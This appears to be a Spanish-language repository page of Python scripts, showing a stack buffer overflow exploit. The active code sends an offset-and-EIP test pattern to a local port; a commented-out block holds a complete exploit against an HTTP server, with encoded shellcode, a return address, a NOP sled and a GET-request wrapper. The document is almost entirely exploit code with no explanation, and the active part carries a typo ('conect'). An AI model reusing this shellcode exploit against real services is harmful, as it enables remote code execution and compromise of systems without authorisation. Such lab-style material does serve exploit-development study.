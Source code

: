 ## Scripts en python

### Buffer Overflow

<pre>
#!/usr/bin/python3

import socket,  signal, sys

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(0)

# Ctlr+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
ip_address = "127.0.0.1"
offset = 1052
before_eip = b"A"*offset
eip = b"B"*4
after_eip=b"C"*100

payload = before_eip + eip + after_eip

def makeConnection():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.conect((ip_address, 8888))
    s.send(payload)


if __name__ == '__main__':

    makeConnection()

#sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#sock.connect(('192.168.3.103',80))
#metodo_http = "GET "
#buf =  ""
#buf += "\xbe\x13\xd8\xc8\xbe\xd9\xc4\xd9\x74\x24\xf4\x5a\x29"
#buf += "\xc9\xb1\x52\x83\xc2\x04\x31\x72\x0e\x03\x61\xd6\x2a"
#buf += "\x4b\x79\x0e\x28\xb4\x81\xcf\x4d\x3c\x64\xfe\x4d\x5a"
#buf += "\xed\x51\x7e\x28\xa3\x5d\xf5\x7c\x57\xd5\x7b\xa9\x58"
#buf += "\x5e\x31\x8f\x57\x5f\x6a\xf3\xf6\xe3\x71\x20\xd8\xda"
#buf += "\xb9\x35\x19\x1a\xa7\xb4\x4b\xf3\xa3\x6b\x7b\x70\xf9"
#buf += "\xb7\xf0\xca\xef\xbf\xe5\x9b\x0e\x91\xb8\x90\x48\x31"
#buf += "\x3b\x74\xe1\x78\x23\x99\xcc\x33\xd8\x69\xba\xc5\x08"
#buf += "\xa0\x43\x69\x75\x0c\xb6\x73\xb2\xab\x29\x06\xca\xcf"
#buf += "\xd4\x11\x09\xad\x02\x97\x89\x15\xc0\x0f\x75\xa7\x05"
#buf += "\xc9\xfe\xab\xe2\x9d\x58\xa8\xf5\x72\xd3\xd4\x7e\x75"
#buf += "\x33\x5d\xc4\x52\x97\x05\x9e\xfb\x8e\xe3\x71\x03\xd0"
#buf += "\x4b\x2d\xa1\x9b\x66\x3a\xd8\xc6\xee\x8f\xd1\xf8\xee"
#buf += "\x87\x62\x8b\xdc\x08\xd9\x03\x6d\xc0\xc7\xd4\x92\xfb"
#buf += "\xb0\x4a\x6d\x04\xc1\x43\xaa\x50\x91\xfb\x1b\xd9\x7a"
#buf += "\xfb\xa4\x0c\x2c\xab\x0a\xff\x8d\x1b\xeb\xaf\x65\x71"
#buf += "\xe4\x90\x96\x7a\x2e\xb9\x3d\x81\xb9\x06\x69\x8a\x8b"
#buf += "\xef\x68\x8c\xfa\xb3\xe5\x6a\x96\x5b\xa0\x25\x0f\xc5"
#buf += "\xe9\xbd\xae\x0a\x24\xb8\xf1\x81\xcb\x3d\xbf\x61\xa1"
#buf += "\x2d\x28\x82\xfc\x0f\xff\x9d\x2a\x27\x63\x0f\xb1\xb7"
#buf += "\xea\x2c\x6e\xe0\xbb\x83\x67\x64\x56\xbd\xd1\x9a\xab"
#buf += "\x5b\x19\x1e\x70\x98\xa4\x9f\xf5\xa4\x82\x8f\xc3\x25"
#buf += "\x8f\xfb\x9b\x73\x59\x55\x5a\x2a\x2b\x0f\x34\x81\xe5"
#buf += "\xc7\xc1\xe9\x35\x91\xcd\x27\xc0\x7d\x7f\x9e\x95\x82"
#buf += "\xb0\x76\x12\xfb\xac\xe6\xdd\xd6\x74\x16\x94\x7a\xdc"
#buf += "\xbf\x71\xef\x5c\xa2\x81\xda\xa3\xdb\x01\xee\x5b\x18"
#buf += "\x19\x9b\x5e\x64\x9d\x70\x13\xf5\x48\x76\x80\xf6\x58"
#buff = "A"*1787 + "\x5f\xa5\xa7\x7c" + "\x90"*20 + buf
#cabecera_http=" HTTP/1.1\r\n\r\n"
#buff_final = metodo_http+buff+cabecera_http
#sock.send(buff_final)
#sock.recv(1024)
#sock.close()
</pre>
